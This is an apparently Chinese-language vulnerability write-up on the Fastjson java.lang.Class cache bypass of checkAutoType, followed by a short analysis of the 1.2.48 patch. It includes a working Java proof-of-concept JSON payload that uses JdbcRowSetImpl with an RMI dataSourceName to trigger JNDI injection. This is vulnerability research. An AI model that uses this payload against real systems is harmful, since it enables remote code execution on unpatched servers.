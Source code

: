 ![image-20220303215403825](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303215403825.png)

这里将com.sun.rowset.JdbcRowSetImpl通过put放入map的缓存中

当下一次执行到checkAutoType的时候会通过TypeUtils.getClassFromMapping获取到map缓存的类

![image-20220303224139981](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303224139981.png)

跟进TypeUtils.getClassFromMapping

![image-20220303224216599](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303224216599.png)

这样就获取到了我们的利用类com.sun.rowset.JdbcRowSetImpl，后面的流程就是一样的了

## 漏洞复现

POC

```
package Fastjson.Test;

import com.alibaba.fastjson.JSON;

public class Unser {
    public static void main(String[] argv) throws Exception{
        String payload = "{\n" +
                "    \"a\":{\n" +
                "        \"@type\":\"java.lang.Class\",\n" +
                "        \"val\":\"com.sun.rowset.JdbcRowSetImpl\"\n" +
                "    },\n" +
                "    \"b\":{\n" +
                "        \"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\n" +
                "        \"dataSourceName\":\"rmi://127.0.0.1:1099/badNameClass\",\n" +
                "        \"autoCommit\":true\n" +
                "    }\n" +
                "}";
        JSON.parse(payload);
    }
}
```

![image-20220303224949902](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303224949902.png)



# 1.2.48补丁分析

在这里的loadClass将缓存开关cache设置为false

![image-20220303230042990](C:\Users\ga't'c\AppData\Roaming\Typora\typora-user-images\image-20220303230042990.png)

无法进入这里的if判断，就不能将利用类写入缓存了
